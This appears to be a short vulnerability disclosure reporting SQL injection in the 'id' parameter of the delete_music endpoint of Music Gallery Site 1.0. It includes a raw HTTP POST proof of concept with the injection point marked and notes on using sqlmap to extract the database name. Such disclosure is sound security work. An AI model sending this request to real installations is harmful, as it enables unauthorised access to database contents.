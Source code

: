 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
/php-music/classes/Master.php?f=delete_music

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/classes/Master.php?f=delete_music with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /php-music/classes/Master.php?f=delete_music HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 58
Origin: http://localhost
Connection: close
Referer: http://localhost/php-music/admin/?page=musics
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=4*
```

Get database name through sqlmap
<img width="952" alt="image" src="https://github.com/user-attachments/assets/4ab7457c-bf5b-40c7-8db9-b56d938b1c66">
<img width="934" alt="image" src="https://github.com/user-attachments/assets/4da028db-1962-427b-a6dd-dae10c96e4c3">





